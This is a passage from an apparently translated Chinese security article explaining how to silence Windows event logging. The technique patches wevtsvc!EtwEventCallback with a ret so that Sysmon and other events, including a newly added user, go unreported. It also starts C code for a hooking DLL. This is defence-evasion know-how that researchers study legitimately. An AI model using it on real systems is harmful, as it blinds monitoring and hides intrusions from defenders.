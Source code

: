 在wevtsvc!EtwEventCallback上设置断点，让我们更深入地了解这个回调是如何工作的。它将在EVENT_RECORD结构中接收事件，如下所示：

```
typedef struct _EVENT_RECORD `{`
  EVENT_HEADER                     EventHeader;
  ETW_BUFFER_CONTEXT               BufferContext;
  USHORT                           ExtendedDataCount;
  USHORT                           UserDataLength;
  PEVENT_HEADER_EXTENDED_DATA_ITEM ExtendedData;
  PVOID                            UserData;
  PVOID                            UserContext;
`}` EVENT_RECORD, *PEVENT_RECORD;
```

EVENT_HEADER结构将包含更多关于事件的信息，包括报告事件的提供者。通过windbg的一个功能，我们能够获取这个提交者的GUID。

[![](https://p1.ssl.qhimg.com/t015b22ea4ee8c5baf6.png)](https://p1.ssl.qhimg.com/t015b22ea4ee8c5baf6.png)

现在我们有了提交者的GUID，我们可以使用logman.exe程序来查找它，可以看到提交者是Microsoft-Windows-Sysmon。

[![](https://p2.ssl.qhimg.com/t01614cd5ed9afc9d76.png)](https://p2.ssl.qhimg.com/t01614cd5ed9afc9d76.png)

我们可以修改这个函数，在这里加一个ret指令。这个操作会阻止所有事件报告的产生。

[![](https://p4.ssl.qhimg.com/t014512c1c30d9c6788.png)](https://p4.ssl.qhimg.com/t014512c1c30d9c6788.png)

在下图您可以看到，我在7:01清除了事件日志，然后在7:04添加了一个新用户，但是这个事件没有被报告，因为我们的ret在回调中导致了系统范围内的所有事件都不会被报告。

[![](https://p2.ssl.qhimg.com/t01a86b2217f35ce880.png)](https://p2.ssl.qhimg.com/t01a86b2217f35ce880.png)



## 利用钩子进行下一步操作

现在我们有了一个在windbg中正常工作的PoC，是时候开始编写代码了。我将跳过注入这个步骤，因为有很多很好的教程。直接来看下我们的DLL是如何工作的。

我们需要做的第一件事是找到wevtsvc!EtwEventCallback的偏移量，这样我们就知道把钩子放在哪里。第一步是定位wevtsvc.dll的基地址，下面的代码将完成这个任务并将其存储在dwBase变量中。

```
DWORD_PTR dwBase;
DWORD     i, dwSizeNeeded;
HMODULE   hModules[102400];
TCHAR     szModule[MAX_PATH];

if (EnumProcessModules(GetCurrentProcess(), hModules, sizeof(hModules), &amp;dwSizeNeeded))
`{`
    for (int i = 0; i &lt; (dwSizeNeeded / sizeof(HMODULE)); i++)
    `{`
        ZeroMemory((PVOID)szModule, MAX_PATH);

        if (GetModuleBaseNameA(GetCurrentProcess(), hModules[i], (LPSTR)szModule, sizeof(szModule) / sizeof(TCHAR)))
        `{`
            if (!strcmp("wevtsvc.dll", (const char*)szModule))
            `{`
                dwBase = (DWORD_PTR)hModules[i];
            `}`
        `}`
    `}`
`}`
```
